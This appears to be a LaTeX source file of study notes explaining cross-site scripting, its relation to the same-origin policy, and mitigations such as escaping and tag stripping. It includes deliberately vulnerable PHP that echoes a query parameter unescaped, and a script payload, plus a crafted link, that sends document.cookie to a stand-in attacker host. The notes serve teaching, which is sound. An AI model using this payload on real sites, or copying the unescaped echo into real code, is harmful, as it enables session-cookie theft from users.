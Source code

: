 \documentclass[9pt, letterpaper]{article}
\begin{document}
\subsection{What is an XSS attack? How it's related to the Same Origin Policy? Give an high level description of how to mount it and the main mitigation measures.}
\begin{itemize}
	\item An XSS attack is a \textbf{Cross Site Scripting Attack}.
	\item Suppose we have {\tt site.com/search.php?q=}
	      \begin{itemize}
		      \item This website, whatever I type in to search, is going to write:
		            \begin{lstlisting}[language=PHP, numbers=none]
	<?php
    	echo "Here your result for" + $_GET['q'];
	?>
\end{lstlisting}
		      \item Here I can type:
		            \begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	<script>
		window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
	</script>
\end{lstlisting}
		      \item If it works, I'll \textbf{send my authentication Cookie to another website}.
		      \item I can give this link :
		            \begin{lstlisting}[language=PHP, numbers=none, xrightmargin=0.08\textwidth]
	site.com/search.php?q = 
		<script>
			window.open("http://mymalicioussite.com/?cookie=" + document.cookie)
		</script>
\end{lstlisting}
		            to someone and \textbf{steal his/her Cookies}!
	      \end{itemize}
	\item This can be \textbf{mitigated by}:
	      \begin{itemize}
		      \item \textbf{replacing} {\tt $<$} with {\tt \&lt};
		      \item \textbf{sanitizing and removing all tags} (or only the dangerous one) \textbf{from} the \textbf{input}.
	      \end{itemize}
	\item This attack eludes the \textbf{Same Origin Policy} because it's a {\tt <script>} \textbf{executed in the same page} so it has the \textbf{same origin} and it's the page itself sending data outside.
\end{itemize}
\end{document}
